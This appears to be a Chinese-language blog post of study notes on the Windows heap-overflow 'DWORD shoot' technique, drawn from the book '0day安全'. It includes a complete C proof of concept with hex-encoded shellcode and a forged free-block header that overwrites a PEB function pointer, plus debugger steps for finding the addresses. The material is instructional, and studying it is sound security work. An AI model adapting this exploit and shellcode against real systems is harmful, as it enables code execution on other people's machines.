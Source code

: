 ```yaml
---
layout: single
author_profile: true
comments: true
title: 堆溢出 arbitrary DWORD reset 入门
tagline: 学习笔记
categories: [Windows]
tags: [系统安全]
---
```

## 0.引言
arbitrary DWORD reset 在0day安全中叫做DWORD SHOOT，本文是参考《0 day安全》第5章的学习笔记。

arbitrary DWORD reset的攻击原理是，系统采用双向链表维护空闲堆块，通过溢出修改空闲堆块首部的pre和next指针，最后在申请该块时达到任意修改内存的目的。下面使用 的方法是：修改PEB 中的一个函数指针（进程结束时会调用），使它指向我们构造的shellcode，这样进程结束前会去执行shellcode.

## 1.双向链表组织空闲堆块
空闲堆块用双向链表组织，每个空闲堆块首部占16字节，前8个字节用于标识该块的相关信息（如块大小、是否占用等），后8字节用于存储pre和next两个指针。

当申请一个空闲堆块时，从双向链表删除的过程大致如下：
	
	int deleteNode(ListNode *node)
	{
		node->next->pre = node->pre;
		node->pre->next = node->next;
	}

## 2.arbitrary DWORD reset

### 2.1.覆盖空闲堆首部
假定一个堆A是已经申请的，堆B在A后面，是空闲的，如|—A—|—B—|
在向堆A中拷贝数据时，数据长度超出了堆A的大小，那么将覆盖堆B的首部，破坏了空闲堆双向链表结构。

	B->pre = (ListNode*)addr_x
	B->next = (ListNode*)addr_y

### 2.2.申请被覆盖的空闲堆
这时系统还是将堆块B从双向链表中删除（系统不知道双向链表结构被破坏），模拟deleteNode操作

	B->next->pre = B->pre
	B->pre->next = B->next

也就是

	((ListNode*)addr_y)->pre = (ListNode*)addr_x
	((ListNode*)addr_x)->next =  (ListNode*)addr_y

在addr_y开始的0~3字节处  存储addr_x
在addr_x开始的4~7字节处  存储addr_y

	addr_y[0~3] = addr_x
	addr_x[4~7] = addr_y

（注意ListNode不是空闲堆块的头部）

## 3.实例分析
{% highlight c %}
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
//repaire the pointer which shooted by heap over run
"\xB8\x20\xF0\xFD\x7F"  //MOV EAX,7FFDF020
"\xBB\x03\x91\xF8\x77"  //MOV EBX,77F89103 the address here may releated to your OS
"\x89\x18"				//MOV DWORD PTR DS:[EAX],EBX
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
"\x88\x06\x36\x00\x20\xf0\xfd\x7f";
//0x00360688 is the address of shellcode in first heap block, you have to make sure this address via debug 
//0x7ffdf020 is the position in PEB which hold a pointer to RtlEnterCriticalSection()
//and will be called by ExitProcess() at last

main()
{
	
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0,0x1000,0x10000);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
	//printf("%d\n",sizeof(shellcode)-1);
	//__asm int 3 //used to break the process
	//memcpy(h1,shellcode,200); //normal cpy, used to watch the heap
	memcpy(h1,shellcode,0x200); //overflow,0x200=512
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
	return 0;
}

{% endhighlight %}

### 3.1. 获取shellcode的起始地址，也就是堆块h1的地址
在源程序加入断点，OD打开exe程序，F9执行到断点处，发现EAX：0×00360688，即shellcode的起始地址，F8单步调试，执 行完REP MOVS DWORD….指令，它对应memcpy函数，可在内存0×00360688处看到shellcode的内容。

### 3.2. 获取RtlEnterCriticalSection()函数的地址，两个方法
1）在OllyDbg汇编区，Ctrl+G输入RtlEnterCriticalSection查找函数的地址；
2）《0day安全》书中说存储该函数指针的位置是固定的，0x7FFDF020，也可以在OD下方的内存区Ctrl+G输入7FFDF020查找该内存地址存储的内容，地址是 0x77f89103。


### 3.3. shellcode分析

shellcode有216字节，前200字节填充 大小为200字节的堆区h1，它后面紧跟着就是空闲堆块
	
	201~208字节存放堆块首部
	209~212字节存放shellcode的起始地址，需要实际调试确定，本实验是0×00360688
	213~216字节存放P.E.B函数指针的地址，即0x7FFDF020

### 3.4. 溢出

当执行完memcpy后，再申请空闲堆时，申请的是被覆盖的堆B

	B->next = 0×00360688
	B->pre = 0x7FFDF020

在从空闲堆双向链表中删除该堆块时，会在0×00360688处第4~7字节写入0x7FFDF020，这是shellcode前12字节为NOP的原因；   

在0x7FFDF020处第0~3字节写入0×00360688，进程结束时想去执行ExitProcess()时，会转而执行我们的shellcode。    

在执行shellcode时，为了让shellcode结束后调用ExitProcess()，在shellcode中又将0x77f89103写回0x7FFDF020处。  

## 注：

实验环境 winodws 2000 sp4，参考《0 day安全第二版》
